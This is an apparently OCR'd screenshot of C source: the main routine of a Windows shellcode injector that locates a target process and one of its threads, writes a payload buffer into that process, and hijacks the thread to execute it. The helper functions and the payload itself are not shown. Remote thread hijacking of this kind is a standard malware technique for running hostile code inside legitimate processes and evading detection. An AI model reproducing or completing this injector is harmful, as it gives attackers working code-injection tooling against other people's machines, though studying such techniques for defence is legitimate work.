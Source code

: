 ```c
	if (!GetProcessHandle(argv[1], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	printf("\t[i] Found Target Process Pid: %d \n", dwProcessId);
	printf("[+] DONE \n\n");


	printf("[i] Searching For A Thread Under The Target Process ... \n");
	if (!GetThreadhandle(dwProcessId, &dwThreadId, &hThread)) {
		printf("[!] No Thread is Found \n");
		return -1;
	}
	printf("\t[i] Found Target Thread Of Id: %d \n", dwThreadId);
	printf("[+] DONE \n\n");


	printf("[i] Writing Shellcode To The Target Process ... \n");
	if (!InjectShellcode(hProcess, Payload, sizeof(Payload), &pAddress)) {
		return -1;
	}
	printf("[+] DONE \n\n");


	printf("[i] Hijacking The Target Thread To Run Our Shellcode ... \n");
	if (!HijackThread(hThread, pAddress)) {
		return -1;
	}
	printf("[+] DONE \n\n");

	CloseHandle(hThread);
	CloseHandle(hProcess);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}
```

